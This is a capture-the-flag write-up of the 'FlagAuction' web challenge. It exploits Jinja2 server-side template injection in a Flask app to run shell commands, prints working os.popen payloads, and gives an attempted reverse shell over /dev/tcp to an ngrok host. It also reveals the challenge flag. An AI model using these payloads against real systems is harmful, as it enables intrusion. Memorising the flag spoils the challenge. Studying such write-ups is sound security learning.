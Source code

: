 # FlagAuction

# Description

```
Yay !!! The Flag is on sale !!!! But are you okay with paying the "Gold Price" or will you pay the "Iron Price" ?

https://web.ctf.devclub.in/web/4/
```

# Observation

It presented us with this:

![Welcome](welcome.png)

On clicking any of the link, it appended the product name to `/buy/<:product_name>` route. I opened up my burp to play around with these requests.

Consider me biased, but this application running in Flask (python) pushed me to try SSTI, as it's quite a common vulnerability to be found in applications which use jinja2 as their default templating engine.

![Reflect](reflect.png)

We can see that, we've got successful SSTI, as our payload is being processed by the server. Let's refer to the [ocean of payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) for further escalation.

Tired of burp, huh?? Let me introduce my another favourite REST API client, **Thunder Client**. It's a light VSCode extension, so that I won't have to switch windows/tabs while playing around with requests.

# Exploitation

Now, we'll try to escalate our SSTI to RCE, which is generally trivial to see, yet exciting to feel!!

Payload: 
```
http://web.ctf.devclub.in/web/4/buy/{{cycler.__init__.__globals__.os.popen('ls -al').read()}}
```

![Listing](list.png)

At this point, my first approach was to start a netcat listener in my local machine, and tunnel the remote connection using TCP sockets to escalate my privileges. 

![Ngrok](ngrok.png)

I tried gaining reverse shell using this payload `sh -i >& /dev/tcp/6.tcp.ngrok.io/18540 0>&1`
, but seemed like the outgoing connections(egress) were restricted or the firewall must be blocking it. 

# Final payload

Now, I thought of grepping the whole file system for the keyword `CTF`, but then the request timed out, so I listed the name of directories in root and partitioned the process of grepping. Finally I got success in the `/srv` directory, which gave out the flag.

```
http://web.ctf.devclub.in/web/4/buy/{{cycler.__init__.__globals__.os.popen('find /srv -iname "*" -type f -print0 | xargs -0 grep -H "CTF"').read()}}
```

![flag](flag.png)

This was a again a medium level chall with high points, finding the flag location was quite frustrating, but eventually we got the flag, so the challenge was nice! xD

Flag: ```CTF{jinja_1s_qu1t3_vuln3rabl3}```